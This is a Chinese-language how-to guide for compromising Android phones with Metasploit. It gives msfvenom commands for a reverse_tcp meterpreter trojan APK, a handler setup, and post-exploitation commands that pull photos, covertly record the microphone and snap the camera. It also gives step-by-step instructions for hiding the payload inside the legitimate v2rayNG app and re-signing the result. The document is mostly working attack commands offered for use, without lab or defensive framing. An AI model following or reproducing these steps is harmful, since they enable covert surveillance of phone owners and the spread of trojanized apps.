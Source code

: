 # Msfvenom 安卓设备渗透指南
## 环境准备
* 木马apk
    * 其中：
        * `LHOST`代表的是监听主机，写kali的ip
        * bd.apk代表的是编译好的木马
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=5555 R > bd.apk
```
* 在target上植入完成后
```
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.0.108
set LPORT 5555
exploit
```
开始监听
 
***
## 常用的指令

* 下载攻击机中的照片 `download <target的目录> <kali的目录>`

* 对攻击机进行录音监控 `record_mic -d 13 -f sound.wav -p false`

```
ecord_mic可能有参数：

-h：显示帮助。

-d ：记录的秒数，默认为1秒

（默认的1秒听不到啥，设置高了又会报错：Error running command record_mic: Rex::TimeoutError Operation timed out

参考原metasploit-framework issue地址：https://github.com/rapid7/metasploit-framework/issues/9113

本人在Kali linux测得13为最优秒数）

-F ：wav文件路径。默认为HOME / [随机乱码名字] .wav

-p ：自动播放捕获的音频，默认为“true”。
```
* 拍照：先通过`webcam_list`查看摄像头的索引
```
webcam_snap -i 2 -p demo.jpeg -q 20  -v false

-h：显示帮助。

-i ：要使用的网络摄像头的索引号。

-p ：JPEG图像文件路径。默认为HOME / [随机乱码名字] .jpeg

-q ：JPEG图像质量，默认为“50”。

-v ：自动查看JPEG图像，默认为“true”。
```
***
### 其他信息记录：
* 如果对方不锁屏的话，shell就不会掉线

***
## 手动给无壳apk添加backdoor
### 环境准备：
* Kali Linux
* apktool 版本：2.3.4
* 一个无壳app,我选择的是v2ray
* 用msfvenom生成好的木马文件 bd.apk
* 一个windows环境
* 在windows和linux端都需要准备好jdk8以上的版本
***
### 游戏开始：
1. 先在windows10下载好apktool,具体安装方法查看官网文档：[apktoll_install_process](https://ibotpeaches.github.io/Apktool/install/)
2. 将木马apk和需要注入的apk放在同一个目录下
3. 将他们用命令分别decomplie
```
apktool d bd.apk

apktool d v2rayng.apk
```
得到两个反编译后的文件夹，文件夹名为apk文件名的前缀
4. 现在开木马手动注入，打开v2ray文件夹，找到AndroidManifest.xml 找到文件的入口
![3f401a8815bca1ead0317040a8612e89](Android 木马植入.resources/85CC4369-C9FF-4C4A-AEAA-A3540243D7A7.png)
5. 然后进入目录找到对应smali文件
6. 在文本中搜索onCreate()函数，将木马注入
```
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V
```
![2f60b8ad7788eda85cb609f933a07771](Android 木马植入.resources/4922109D-B8A5-4C16-9746-712DD950DECD.png)
7. 完成后将木马的依赖文件复制到被注入apk中：
```
cp -r db/smali/com/* v2rayng/smali/com/
```
需要注意的是上面的目录格式是linux下的，将“/”改为“\”即可
8. 将被注入的app的权限重新定义，把木马AndroidManifest.xml中的权限拷贝到被注入文件的AndroidManifest.xml中
![9e9c85b01f416fdcf78c33a6ef3b1ea8](Android 木马植入.resources/7FC9A6E8-8A31-446B-827F-9EE59698328D.png)
9. 检查权限，删除重复项
10. 将被注入的软件进行回编：
```
apktool b -o <path\demo.apk> .\v2rayng
```
11. 回编后的app需要重新打入签名才能使用
生成keystore:
```
keytool -genkey -v -keystore mykey.keystore -alias alias_name -keyalg RSA -keysize 1024 -validity 22222
```
12. 签名写入：
```
jarsigner -keystore mykey.keystore luyou.apk alias_name
```
***
### apktool的卸载
1. 在Kali 的文件夹`/etc/local/bin`中找到`apktool`以及'apktool.jar'两个文件，把他们删除
2. 再找到模版文件1.apk，将它删除
***
### **注意事项**

1. apk所运行的环境必须必须是64bit的电脑，否则在注入木马后再编译的过程中会有各种个样的错误。由于apktool是基于java进行跨平台的运行，所以自己查错认为是电脑位数的差别导致的错误






